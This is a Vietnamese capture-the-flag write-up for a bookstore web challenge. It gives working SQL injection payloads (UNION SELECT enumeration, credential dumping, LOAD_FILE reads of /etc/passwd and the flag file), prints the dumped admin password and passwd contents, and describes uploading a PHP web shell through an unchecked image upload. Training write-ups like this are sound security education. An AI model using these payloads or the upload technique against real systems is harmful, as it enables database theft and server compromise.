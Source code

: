 # The Book Store

1.	Description:
-	Flag được giấu ở đường dẫn /flagxxx.txt 
-	Bài này là một bài SQLi 

2.	Solution:
-	Ta chọn một sản phẩm bất kì rồi vào burp chuyển request chứa sản phẩm vừa chọn đến Repeater

![1](./images/1.png)

-	Ta thử nhập một kí tự đặc biệt như ‘ hoặc “ để xem có lỗi hay không
payload: GET /description.php?ID=NEW-2'&category=new HTTP/1.2

![2](./images/2.png) ta đoán đây là một lỗ hổng sql!

-	Xác định các cột trong db bằng order by 
payload: ID=NEW-2' ORDER BY 16-- -  

![3](./images/3.png)

payload: ID=NEW-2' ORDER BY 15-- -  
![4](./images/4.png) Vậy có 15 cột 

-	Bây giờ ta sử dụng UNION để bắt đầu lấy thông tin 
payload: ID=0' UNION SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15-- -&category=new

giúp ta xác định được các cột trả về ở vị trí nào.

![5](./images/5.png)

-	Ta kiểm tra xem version của db trong bài ctf này là loại nào để ta có thể sử dụng information.schema

![6](./images/6.png)

version MariaDB nên ta sẽ khai thác bằng cách truy cập vào bảng information_schema

-	Payload: ID=0' UNION SELECT 1,2,3,4,5,6,7,8,9,10,11,unhex(hex(table_name)),13,14,15 FROM information_schema.tables WHERE table_schema=database()-- -&category=new 

![6](./images/7.png)

Việc ta sử dụng unhex(hex(table_name)) nhằm mục đích giúp hệ thống hiểu dữ liệu ta truyền vào dưới dạng hex và được trả ra dưới dạng text để ta đọc
Trong MariaDB có 1 cột table_schema chứa tên database trong khi db infomation_schema lại trả về rất nhiều bảng khác của hệ thống nên ta cần thêm điều kiện table_schema=database() để trả về đúng cột db ta đang cần
Ta thấy có 5 cột dược trả về trong đó có bảng users có thể chứa dữ liệu của admin

-	Tiếp tục lấy dữ liệu từng bảng users xem có bao nhiêu cột trong bảng.
Payload: ID=0' UNION SELECT 1,2,3,4,5,6,7,8,9,10,11,group_concat(unhex(hex(column_name))),13,14,15 FROM information_schema.columns WHERE table_name='users'

![6](./images/8.png)

Ta thấy kết quả trả về có 2 cột ta cần quan tâm là cột UserName và cột Password

-	Payload: ID=0' UNION SELECT 1,group_concat(UserName),group_concat(Password),4,5,6,7,8,9,10,11,12,13,14,15 FROM users-- -&category=new 

![6](./images/9.png)

Để nhìn rõ kết quả ta paste link lên browse

![6](./images/10.png)

Tài khoản  username = admin && password = 1234567890 

-	Đăng nhập thử vào admin ta thấy có 2 phần là All user với chức năng show toàn bộ user 

![6](./images/14.png)
 
- và phần Upload product với chức năng upload một file ảnh 

![6](./images/15.png)

-	Check thử thư mục /etc/passwd
payload: /description.php?ID=NEW' UNION SELECT 1,2,3,4,5,6,7,8,9,10,11,LOAD_FILE('/etc/passwd'),13,14,15-- -&category=new 
Ta được:
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin (user chạy web, thư mục home là /var/www có thể là thư mục gốc của web )
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
www:x:1000:1000::/home/www:/bin/sh
mysql:x:101:101:MySQL Server,,,:/nonexistent:/bin/false

-	Lợi dụng việc upload file không kiểm tra tên, loại, nội dung và kích thước tệp giúp ta có thể tải một file lệnh shell lên trên hệ thống ta tạo file shell có tên path.php nội dung như sau:

![1](./images/11.png)
File shell này giúp tìm các file có tên bắt đầu là flag và kết thúc với đuôi .txt và được tìm từ thư mục gốc trên hệ thống, sau đó kết quả được ghi vào file /www/flag_paths.txt  (file flag_paths.txt được lưu trong thư mục web)

-	Upload file lên và thử các đường dẫn http://<..> /uploads/path.php hoặc /storage/path.php 
Loay hoay một hồi thì mình chợt nhận ra rằng file upload là up ảnh minh họa =)), lúc này mình nghĩ là liệu có mở được file ảnh ko. Click chuột trái vào ảnh và chọn được mở sang một tap khác 

![1](./images/12.png)

- Vậy là ta đã có đường dẫn để mở file path.php, ta vào đường dẫn /img/books/path.php được nội dung sau 

![2](./images/16.png)

- Giờ ta đã có file flag_paths.txt tìm đường dẫn flag :  
/flagR3LgR.txt

- Payload: /description.php?ID=NEW' UNION SELECT 1,2,3,4,5,6,7,8,9,10,11,LOAD_FILE('/flagR3LgR.txt'),13,14,15-- -&category=new

![1](./images/13.png)

- CHH{Tr41nin9_N4m_B0okSt0r3_f16b8267ba93b3329ff5ae377c3134e3}